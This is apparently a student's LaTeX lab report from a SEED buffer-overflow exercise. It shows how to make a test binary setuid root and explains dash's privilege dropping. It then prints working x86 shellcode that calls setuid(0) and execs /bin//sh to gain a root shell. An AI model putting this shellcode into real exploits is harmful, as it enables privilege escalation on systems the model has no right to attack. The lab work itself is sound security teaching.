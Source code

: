 \documentclass[14pt]{extarticle}
\begin{document}
To test if the priviledges can be elevated properly, I will need to set the file to execute as root. This can be done in the same way stack.c is set to execute as root
\begin{lstlisting}[language=bash]
sudo chown root dash_shell_test
sudo chmod 4755 dash_shell_test
\end{lstlisting}
Next I will run the program to test that we can retrieve the dash shell. This program will be ran twice, once without setting the uid to 0 and once with.\\
When executing the program without running the setuid(0) line (commenting out the seduid(0) command), it executes fine, and the user is my current user (seed).\\
When executing the program with the setuid(0) line it still runs fine, but it sets my uid from 0 (root) back to my real uid (seed).\\
So it prevents switching users by resetting my gid back to my uid. Since the setuid command works in this test, I will update the attck to use an updated set of assembly code which makes 4 changes to the instructions (set ebx to 0 in Line 2, set eax to 0xd5 in Line 1 \& 3 (this will be setuid's system call), and the asm code to execute setuid on Line 4)\cite{seed-bof}.\\
So the assembly code will now look as follows:
\begin{lstlisting}[language=c]
 // clear the eax register
  "\x31\xc0"	/* Line 1: xorl     %eax,%eax */
	// clear the ebx register
  "\x31\xdb"  /* Line 2: xorl     %ebx,%ebx */
	// copy the value of %al to 0xd5
  "\xb0\xd5"  /* Line 3: movb     $0xd5,%al */
	// create an interrupt to execute the setuid command
  "\xcd\x80"  /* Line 4: int      $0x80 */

 /** from this point on, the assembly code is the same as the previous exploit **/

// xor a register with it's self to clear it
	"\x31\xc0"       /* Line 1:     xorl       %eax,%eax        */
// push the null value to the stack
	"\x50"            /* Line 2:     pushl      %eax             */
// push the value "//sh" to the stack, double // is used to make 32 bit number
	"\x68""//sh"     /* Line 3:     pushl      $0x68732f2f      */
// push the value "/bin" to the stack
	"\x68""/bin"     /* Line 4:     pushl      $0x6e69622f      */
// copy location of the name[ 0 ] parameter to register ebx
	"\x89\xe3"       /* Line 5:     movl       %esp,%ebx        */
	// push another null value to the stack
	"\x50"           /* Line 6:     pushl      %eax             */
// push the ebx register to the stack
	"\x53"           /* Line 7:     pushl      %ebx             */
// copy location of name parameter to register ecx
	"\x89\xe1"       /* Line 8:     movl       %esp,%ecx        */
// sets edx to zero.
	"\x99"           /* Line 9:     cdq                         */
// copy the value of register al to 11
	"\xb0\x0b"       /* Line 10:    movb       $0x0b,%al        */
// create an interrupt and execute the execve command
	"\xcd\x80"       /* Line 11:    int        $0x80            */

\end{lstlisting}
\end{document}
